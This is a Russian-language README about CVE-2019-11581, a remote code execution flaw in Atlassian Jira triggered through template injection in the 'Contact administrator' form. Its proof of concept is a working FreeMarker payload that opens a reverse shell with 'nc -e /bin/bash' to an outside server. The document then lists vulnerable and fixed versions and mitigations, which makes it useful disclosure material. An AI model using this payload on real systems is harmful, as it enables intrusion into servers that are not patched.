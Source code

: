 # RCE-in-Jira
Remote code execution in Atlassian Jira(CVE-2019–11581) through template engine FreeMaker.

В апреле месяце была обнаружена RCE в продукте Atlassian Confluence, а если быть точнее в плагине, который почти всегда там используется. И вот через 4 месяца еще одна RCE, но теперь уже в другом продукте - Jira.

# PoC?
Все это дело реализовывается через форму "Связаться с админом". По умолчанию он выключен, но у многих он включен.
Jira использует компилирующий обработчик шаблонов - [FreeMaker](https://ru.wikipedia.org/wiki/FreeMarker), написанный на Java.
Зная это, получается сгенерировать несложный Payload.

```$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('nc -e /bin/bash server.com 80').waitFor()```

![Image](https://downloader.disk.yandex.ru/preview/8aa9e1a7214395199fa69ba66aed75beb64bf6ba00d0b72d690a9bd8018afb8a/5d2e2aea/4FcDW08Vat-NVoVf6aWDVnDD_gIthqJIYIA_7RnszcLyB_bZTnYKFluDNTr71ayqNZ0SsUQajOnt62LXVqNhuw%3D%3D?uid=0&filename=rceinjira1.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Затем идем к нам на сервер, где слушаем порт и видим, что есть бэкконект:

![Image](https://downloader.disk.yandex.ru/preview/8d6e8bae7389cf4566b64988bbaaef985c6465133571d05499258b931ebfbb33/5d2e2961/b0nHrU1uF4yBjMOSELFi-ihQsFlZA_Hm_FzlHi0zn0-fI8WEmKr8MSC9q54NCRe5jZ15c8XYUpkIlGu7dtrEWA%3D%3D?uid=0&filename=rceinjira2.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Вуаля, у нас есть шелл. Чаще всего, это пользователь Jira, но есть также моменты, у кого запущен и от root.
Подобный RCE, еще был в 2017 году в Spring Boot и снова Java и снова шаблонизатор FreeMaker, [подробнее!](http://deadpool.sh/2017/RCE-Springs/)

![Image](http://deadpool.sh/images/rce_new.jpg)


# How To Fix?

Обновить!

Уязвимые версии:
* 4.4.x
* 5.x.x
* 6.x.x
* 7.0.x
* 7.1.x
* 7.2.x
* 7.3.x
* 7.4.x
* 7.5.x
* 7.6.x before 7.6.14 (the fixed version for 7.6.x)
* 7.7.x
* 7.8.x
* 7.9.x
* 7.10.x
* 7.11.x
* 7.12.x
* 7.13.x before 7.13.5 (the fixed version for 7.13.x)
* 8.0.x before 8.0.3 (the fixed version for 8.0.x)
* 8.1.x before 8.1.2 (the fixed version for 8.1.x)
* 8.2.x before 8.2.3 (the fixed version for 8.2.x)

 
Исправлено в версиях:
* 7.6.14
* 7.13.5
* 8.0.3
* 8.1.2
* 8.2.3

Если нет возможности срочно обновится, то временным решением будет:
* Отключить форму отправки сообщения Админам
* Заблокировать доступ к эндпоинту ```/secure/admin/SendBulkMail!default.jspa```

```Всем удачи!```

https://codeby.net/threads/remote-code-execution-rce-v-jira-cve-2019-11581.68602/
